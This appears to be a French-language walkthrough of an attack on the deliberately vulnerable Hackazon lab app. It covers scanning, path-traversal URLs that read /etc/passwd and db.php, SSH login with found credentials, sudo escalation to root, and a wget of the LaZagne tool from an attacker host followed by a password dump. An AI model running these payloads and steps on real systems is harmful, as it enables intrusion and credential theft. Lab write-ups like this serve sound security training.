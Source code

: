 # Hackazon

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[parrot@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.75
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.75...100%
[+] Scan Nmap 192.168.56.75...100%
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/parrot/Massap/192.168.56.75-tcp.html        |
==========================================================
```

&nbsp;

<span style="color: #dddddd;">⚡</span> **ZAP**

Rapport après fin de scan

![Capture du 2025-02-09 18-32-13](https://github.com/user-attachments/assets/f7a15fbf-7606-4783-9636-25fb2b55b3a2)

&nbsp;

Traverser de chemin

[http://192.168.56.75/account/documents?page=…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F /etc/passwd](http://192.168.56.75/account/documents?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%20/etc/passwd)

![path_traversal](https://github.com/user-attachments/assets/e91a4263-7b0e-4f02-9d97-60b3d5710e88)


&nbsp;

Allons voir le fichier `db.php`

[http://192.168.56.75/account/documents?page=…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F…%2F /var/www/hackazon/assets/config/db.php](http://192.168.56.75/account/documents?page=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F%20/var/www/hackazon/assets/config/db.php)

![injection_commande](https://github.com/user-attachments/assets/c43652d6-7621-4f0e-91c7-e967294ca101)

&nbsp;

**<span style="color: #dddddd;">🖥️</span> NetExec**

Test en `SSH` des identifiant trouver

```
┌─[parrot@parrot]─[~]
└──╼ $nxc ssh 192.168.56.75 -u hackazon -p hackazon --sudo-check
SSH         192.168.56.75   22     192.168.56.75    [*] SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
SSH         192.168.56.75   22     192.168.56.75    [+] hackazon:hackazon (Pwn3d!) Linux - Shell access!
```

&nbsp;

L’utilisateur `hackazon` fais parti du groupe `sudo`

```
hackazon@ubuntu:~$ sudo -s
[sudo] password for hackazon: 
root@ubuntu:~# 
```

&nbsp;

****<span style="color: #dddddd;">👾</span>** LaZagne**

Téléchargement du fichier zip

```
root@ubuntu:~# wget 192.168.56.104:8080/LaZagne-2.4.6.zip
--2025-02-09 09:06:38--  http://192.168.56.104:8080/LaZagne-2.4.6.zip
Connecting to 192.168.56.104:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 705000 (688K) [application/zip]
Saving to: 'LaZagne-2.4.6.zip'

LaZagne-2.4.6.zip                               100%[=====================================================================================================>] 688.48K  --.-KB/s    in 0.008s  

2025-02-09 09:06:38 (79.1 MB/s) - 'LaZagne-2.4.6.zip' saved [705000/705000]
```

&nbsp;

Unzip

```
root@ubuntu:~# unzip LaZagne-2.4.6.zip
Archive:  LaZagne-2.4.6.zip
3ed06c785c417a77c2bc9a09987060425249036d
   creating: LaZagne-2.4.6/
```

&nbsp;

Exécution

```
root@ubuntu:~/LaZagne-2.4.6/Linux# python3 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Password found !!!
Login: hackazon
Password: hackazon

------------------- Mimipy passwords -----------------

[+] Password found !!!
Process: /usr/sbin/sshd
Login: hackazon
Password: hackazon


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.5735633373260498
```

&nbsp;

Cred trouver

| Users | Password |
| --- | --- |
| hackazon | hackazon |
